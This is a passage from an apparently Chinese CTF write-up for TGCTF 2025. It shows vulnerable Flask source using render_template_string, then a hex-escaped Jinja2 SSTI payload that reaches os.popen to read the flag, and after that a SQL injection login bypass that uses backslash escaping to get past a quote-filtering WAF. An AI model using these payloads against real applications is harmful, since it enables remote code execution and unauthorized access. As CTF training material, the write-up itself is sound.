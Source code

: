 ```python
        template2 = '
或许你这只叫天命人的猴子，真的能做到？
'
    try:
        return template1+render_template_string(template)+render_template_string(template2)
    except Exception as e:
        error_message = f"500报错了，查询语句如下：
{template}"
        return error_message, 400

@app.route('/hint', methods=['GET'])
def hinter():
    template="hint：
有一个aazz路由，去那里看看吧，天命人!"
    return render_template_string(template)

@app.route('/aazz', methods=['GET'])
def finder():
    with open(__file__, 'r') as f:
        source_code = f.read()
    return f"
{source_code}
", 200, {'Content-Type': 'text/html; charset=utf-8'}

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```

打ssti

payload

```python
天命((cycler.next["\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f"]["\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f"]["\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f"]('o''s'))['p''open']('cat /flag'))['r''ead']()难违
```

### **TGCTF 2025 后台管理**

题目给了后台的一个账号，tg/tg123

进后台发现什么都没有，甚至可以直接在cookie改身份

回到登录界面尝试万能密码发现有waf，那应该要打sql

![img](../assets/1744970124056-14.png)

waf了单引号,通过转义绕过即可

```bash
username=admin\&password=or 1=1#
```

![img](../assets/1744970124056-15.png)
